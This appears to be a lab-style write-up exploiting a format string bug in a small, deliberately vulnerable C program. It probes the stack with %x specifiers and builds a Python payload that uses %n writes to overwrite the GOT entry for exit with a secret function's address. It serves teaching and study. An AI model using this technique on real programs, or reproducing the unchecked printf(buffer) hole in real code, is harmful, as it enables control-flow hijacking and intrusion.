



## Vulnerable code

```c
#include <stdlib.h>  
#include <unistd.h>  
#include <stdio.h>  
#include <string.h>  
  
void secretFunction(){  
	printf("Secret Key\n");  
}  
  
void vulnerableFunction(){  
	char buffer[64];  
	fgets(buffer,sizeof(buffer), stdin);  
	printf(buffer);  
	exit(1);  
}  
  
int main(int argc, char *argv[]){  
	vulnerableFunction();  
	return EXIT_SUCCESS;  
}
```
 
## Proof of vulnerability

Input any format specifier such as `%x`.

  
*https://owasp.org/www-community/attacks/Format_string_attack*

## Find input's depth in stack

```
AAAABBBBCCCC%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
```

Then search for `41 41 41 41 42 42 42 42 43 43 43 43` in output (corresponding to hex value of `AAAABBBBCCCC`) .

> In our case we have a **4** input depth in stack.

## Find `secretFunction`'s address



> `SECRET FUN ADDR = 0x08090116`.
## Find exit function in GOT 



> `GOT EXIT ADDR = 0x080922e8`. 
## The attack

- We will replace `exit` function address in GOT by `secretFunction`'s.
- We will proceed by writing two burst of 2 bytes.

### Creating the payload 

`0x08090116` = 

| Shift | Hex value | Numeric value |
| - | - | - |
| 0 | `0x0116`| 278 |
| 2 | `0x0809` | 2057 |


```python
print("\xe8\x22\x09\x08" 
	# First address to write in. GOT EXIT ADDR, endian swppped.
	# Will be written in DEPTH'th item in stack.
	+ "\xea\x22\x09\x08"
	# Second address to write in. GOT EXIT ADDR + shift, endian swppped.
	# Will be written in (DEPTH + 1)'th item in stack.
	+ "CCCC" 
	+ "%4$266x" # 278 - 3 * 4
	+ "%4$n" # Write to the adress pointed in the 4th item in stack.
	+ "%5$1779x" # 2057 - 266 - 3 * 4
	+ "%5$n" # Write to the adress pointed in the the 5th item in stack.
)
```

```bash
./FormatString < payload.txt
```
